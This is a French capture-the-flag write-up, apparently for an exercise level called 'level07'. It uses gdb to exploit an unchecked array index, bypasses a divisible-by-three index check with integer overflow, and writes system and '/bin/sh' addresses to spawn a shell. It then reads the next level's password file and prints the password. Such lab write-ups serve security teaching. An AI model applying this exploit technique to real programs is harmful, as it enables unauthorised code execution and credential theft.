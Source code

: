 Il nous est possible de stocker des nombres et de les lire à travers ce programme dans un tableau de 100 chiffres mais dont l'index n'est pas vérifié.
Cela nous permettra de manipuler la mémoire.

La condition "nb % 3 == 0" nous limite juste dans le fait que les index divisibles par 3 ne sont pas utilisables

Notre but est donc de réécrire l'adresse, de remplacer l'EIP par l'adresse de la fonction system("/bin/sh")
Mais pour cela, nous devons déjà retrouver l'EIP.

Pour se faire:

~ gdb level07
(gdb) disas main
(gdb) b *0x0804892b (adresse de l'appel la fonction read_number dans main)
(gdb) r
Input command: read
(gdb) info frame
(gdb) p/d 0xffffd72c (adresse d'eip dans la frame)
$1 = 4294956844
(gdb) info registers
eax            0xffffd534	-10956
(gdb) p/d 0xffffd564 (adresse d'eax dans les registres)
$2 = 4294956388
On peut calculer alors son index à partir du calcul suivant:
4294956844 - 4294956388 = 456
456 / 4 = 114

(gdb) c
Continuing.
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) p/a 4158936339
$3 = 0xf7e45513 <__libc_start_main+243>

On a donc un EIP de 114 divisble par 3, ce qui pose problème, car cette condition empêche de continuer dans le programme.
On peut tenter tout simplement un overflow d'int pour arriver à lire notre index 114.

4294967296 / 4 = 1073741938

(gdb) r
Input command: store
Number: 1
Index: 1073741938
Input command: read
 0xf7e6aed0
(gdb) info frame
 saved eip 0x1
(gdb) p/d 0x1 (on observe notre chiffre stocké)
(gdb) p system (on cherche l'adresse de system)
$6 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p/d  0xf7e6aed0 (on affiche en décimal l'adresse de system obtenue)
4159090384
(gdb) find __libc_start_main,+10000000,"/bin/sh" (On va chercher la mention /bin/sh)
0xf7f897ec
(gdb) p/d 0xf7f897ec
4160264172
(gdb) quit

Input command: store
 Number: 1
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 1
 Completed read command successfully
Input command: store
 Number: 4159090384 (adresse de system)
 Index: 1073741938 (index de 114 par overflow)
 Completed store command successfully
Input command: store
 Number: 4160264172 (adresse de /bin/sh)
 Index: 116
 Completed store command successfully
Input command: quit

whoami
cat /home/users/level08/.pass

7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC